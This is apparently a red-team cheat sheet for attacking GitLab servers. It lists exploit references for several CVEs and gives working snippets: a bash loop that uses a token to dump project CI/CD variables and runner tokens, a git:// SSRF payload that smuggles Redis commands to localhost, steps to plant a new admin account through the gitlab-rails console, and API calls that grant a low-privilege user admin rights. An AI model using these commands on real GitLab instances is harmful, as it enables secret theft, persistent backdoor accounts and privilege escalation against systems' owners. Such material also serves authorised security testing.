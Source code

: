 # GitLab

- [https://devcraft.io/assets/hacktivitycon-slides.pdf](https://devcraft.io/assets/hacktivitycon-slides.pdf)
- [https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/](https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/)
- [https://github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)




## Search for Secrets

- [https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/](https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/)
- [https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/](https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/)

Search for CI/CD variables and runner tokens:

```bash
TOKEN=`cat token`
GITLAB=gitlab.megacorp.local
API="https://$GITLAB/api/v4"

curl -sH "Authorization: Bearer $TOKEN" "$API/user" | jq

# 1. bash get_project_ids.sh <PAGE_NUMBER> | tee -a projects
curl -sH "Authorization: Bearer $TOKEN" "$API/groups/<GROUP_NAME_OR_ID>/projects/?include_subgroups=true&visibility=private&per_page=100&page=$1" | jq -r '.[].id'

# 2. bash get_secrets.sh
for id in `cat projects`; do
    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq '.path'

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id/variables" | jq

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq .runners_token | jq
done
```

Search for credential leaks with [gitleaks](https://github.com/zricethezav/gitleaks):

```
$ eget -qs linux/amd64 "zricethezav/gitleaks" --to gitleaks
$ gitleaks detect -s . -v | jq '.Match + " :: " + .File'
```




## GitLab Runners Abuse

- [https://frichetten.com/blog/abusing-gitlab-runners/](https://frichetten.com/blog/abusing-gitlab-runners/)
- [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)




## SSRF > Redis > RCE (CE/EE)

**CVE-2018-19571, CVE-2018-19585**

- [https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293)
- [https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)
- [https://www.exploit-db.com/exploits/49334](https://www.exploit-db.com/exploits/49334)

Also possible to use this payload (instead of IPv6) to bypass filter checks for localhost, but works only with `git://` scheme:

```
git://127.0.0.1:6379/%0a<REDIS_COMMANDS>
```




## Path Traversal > LFI > RCE (CE/EE)

**CVE-2020-10977**

- [https://xakep.ru/2020/05/26/gitlab-exploit/](https://xakep.ru/2020/05/26/gitlab-exploit/)
- [https://www.exploit-db.com/exploits/49076](https://www.exploit-db.com/exploits/49076)




## Path Traversal > File Write > RCE (EE)

**CVE-2019-19088**

- [https://gitlab.com/gitlab-org/gitlab/-/issues/36029](https://gitlab.com/gitlab-org/gitlab/-/issues/36029)




## gitlab-rails

Add new admin user from console:

```
$ sudo gitlab-rails console
irb(main):001:0 > ActiveRecord::Base.logger = Logger.new($stdout)
irb(main):002:0 > User.find(1)
=> #<User id:1 @root>
irb(main):003:0 > user = User.create(:username => 'snovvcrash', :password => 'Passw0rd!', :password_confirmation => 'Passw0rd!', :admin => true, :name => 'snovvcrash', :email => 'snovvcrash@megacorp.local')
irb(main):004:0 > user.save!
irb(main):005:0 > user.confirmation_token
=> "ZVrM4KsyEdSoTJvo8kx_"
```

Then activate the account by navigating to `https://gitlab.megacorp.local/users/confirmation?confirmation_token=ZVrM4KsyEdSoTJvo8kx_`.

Grant a low-priv user admin's privileges via API:

```bash
# Check token priveleges
$ curl -sX GET -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/user" | jq '.is_admin'
# Grant low-priv user admin's privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=true" | jq '.is_admin'
# Revert low-priv user's original privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=false" | jq '.is_admin'
```
